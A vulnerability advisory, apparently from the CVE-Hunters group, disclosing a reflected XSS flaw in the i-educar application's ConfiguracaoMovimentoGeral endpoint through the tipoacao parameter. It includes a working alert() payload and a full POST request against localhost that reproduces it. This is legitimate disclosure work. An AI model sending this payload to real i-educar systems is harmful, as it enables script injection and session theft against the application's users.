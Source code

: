 # Cross-Site Scripting (XSS) Reflected endpoint `/module/Configuracao/ConfiguracaoMovimentoGeral` parameter `tipoacao`

---

## Summary

A Reflected Cross-Site Scripting (XSS) vulnerability was identified in the `/module/Configuracao/ConfiguracaoMovimentoGeral` endpoint of the _i-educar_ application. This vulnerability allows attackers to inject malicious scripts into the `tipoacao` parameter. The payload is reflected in the application’s HTTP response without proper sanitization, leading to immediate execution in the victim’s browser.

---

## Details

**Vulnerable Endpoint:** `POST /module/Configuracao/ConfiguracaoMovimentoGeral`  
**Parameter:** `tipoacao`

The application fails to properly validate and sanitize user input in the `tipoacao` parameter. An attacker can craft a malicious URL containing a JavaScript payload, which is reflected back in the server’s response and executed when a victim accesses the crafted link.

---

## PoC

**Payload:**

`%22%3E%3Cimg%20src=x%20onerror=alert('XSS-PoC4')%3E`

### Steps to Reproduce:

1. Log in to the _i-educar_ application.
    
2. Make a request using Caido similar to the one below.

```
POST /module/Configuracao/ConfiguracaoMovimentoGeral HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/module/Configuracao/ConfiguracaoMovimentoGeral
Cookie: grav-admin-flexpages=eyJyb3V0ZSI6Ii9ob21lIiwiZmlsdGVycyI6e319; grav-tabs-state={%22tab--f0e041eed24f87f2b6b02fd6924d0a08%22:%22data.languages%22%2C%22tab-flex-pages-e838602f51515c83bca06a8ae758ce52%22:%22data.security%22%2C%22tab-flex-pages-b6676b27f5cdf6b6c22f8e18da4259a0%22:%22data.advanced%22%2C%22tab-flex-pages-raw-8f0a83a672754f7823714134334b1de8%22:%22data.content%22%2C%22tab-flex-pages-dc26c564cb2116d77bda5fff24ba90dc%22:%22data.security%22%2C%22tab-flex_conf-user_groups-accounts-02f0e9f68f41a0648ed530f80bd72c06%22:%22data.cache%22%2C%22tab-flex-pages-raw-9a0364b9e99bb480dd25e1f0284c8555%22:%22data.content%22%2C%22tab-flex-pages-e91e6348157868de9dd8b25c81aebfb9%22:%22data.security%22%2C%22tab--8cc45760590da203c5fc3568ecbabd66%22:%22data.routes%22%2C%22tab--7a2ac3477f8ad14aa750831441325a16%22:%22data.facebook%22}; i_educar_session=zwaLFqQcylntJZp9KejOuTI6ts3wcjebWqYM2vcd
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

tipoacao=Editar%22%3E%3Cimg%20src=x%20onerror=alert('XSS-PoC4')%3E
```

<img width="838" height="577" alt="Pasted image 20250817003111" src="https://github.com/user-attachments/assets/c7b15a1a-70cf-483d-bc05-99d451c68125" />


The result:

<img width="746" height="542" alt="Pasted image 20250817003156" src="https://github.com/user-attachments/assets/e4b6a1cf-1893-4217-88ee-e52729ab6151" />



---

## Impact

Reflected XSS vulnerabilities can lead to severe consequences, including:

- **Session hijacking:** Theft of cookies or authentication tokens
    
- **Credential theft:** Capturing sensitive user credentials via injected scripts
    
- **Malware delivery:** Redirecting victims to malicious downloads or exploit pages
    
- **Phishing attacks:** Displaying deceptive forms or content to steal user data
    
- **Reputation damage:** Exploiting trust between the application and its users
    
- **Client-side manipulation:** Altering the application’s content and behavior dynamically


## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr)

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)

